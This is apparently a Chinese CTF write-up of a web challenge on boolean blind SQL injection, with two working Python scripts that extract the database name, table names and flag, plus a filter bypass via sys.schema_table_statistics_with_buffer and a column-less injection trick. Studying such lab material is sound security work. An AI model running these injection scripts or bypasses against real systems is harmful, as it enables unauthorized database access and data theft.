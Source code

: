 ![](<./img/Pasted image 20230115083110.png>)

![](<./img/Pasted image 20230115083049.png>)

---

```
id=1
```

```
Nu1L
```

```
id=0
```

```
Error Occured When Fetch Result.
```

```
id=0^1
```

```
Nu1L
```

存在布尔盲注的可能

```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/index.php"

fmt = '(ascii(substr((select(database())),%d,1))>%d)#'
false_re = 'Error'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.post(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
        # if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```

```
give_grandpa_pa_pa_pa
```

# 绕过过滤

```
id=information_schema
```

```
SQL Injection Checked.
```

`information_schema`被过滤

```
id=mysql.innodb_table_stats
```

```
SQL Injection Checked.
```

`mysql.innodb_table_stats`也被过滤

参考 [Bypass information_schema](https://cloud.tencent.com/developer/article/1750401)

使用`sys.schema_table_statistics_with_buffer`来绕过

```python
fmt = '(ascii(substr((select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer)where(table_schema)=database()),%d,1))>%d)#'
```

```
users233333333333333,f1ag_1s_h3r3_hhhhh
```

此时可大胆猜测列名为`flag`

```python
fmt = '(ascii(substr((select(flag)from(f1ag_1s_h3r3_hhhhh)),%d,1))>%d)#'
```

```
flag{c65bd808-232c-4510-9cda-a23bc9ea341b}
```

在字段名未知的情况下，也可以进行无字段名注入

```python
import requests
import time
import sys

url = "http://6a664b26-3e33-41a3-afb8-dd1c62b1c403.node4.buuoj.cn:81/index.php"
fmt = '((select 1,"%s") < (select * from f1ag_1s_h3r3_hhhhh))#'
false_re = 'Error'
arg_1 = ''

for i in range(1, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        # payload = fmt % (i, mid)
        payload = fmt % (arg_1 + chr(mid))
        # print(payload)
        params = {'id': payload}
        response = requests.post(url, params)
        # print(response.content)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
        # if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1

    if l == 0 or l == 127:
        print('\n#end', end='')
        exit(0)

    print(chr(l - 1), end='')
    arg_1 = arg_1 + chr(l - 1)
    sys.stdout.flush()
```

```
FLAG{D7BDF737-416F-4BC3-94BE-D486B803FCD8|
```

前面因为字符相同时字符串长度越短比较时越小，因此`l`需要`-1`，结尾字符相同时字符串相等，因此`}`被多减了`1`变成了`|`

#Web #SQL注入 #布尔盲注 #无字段名注入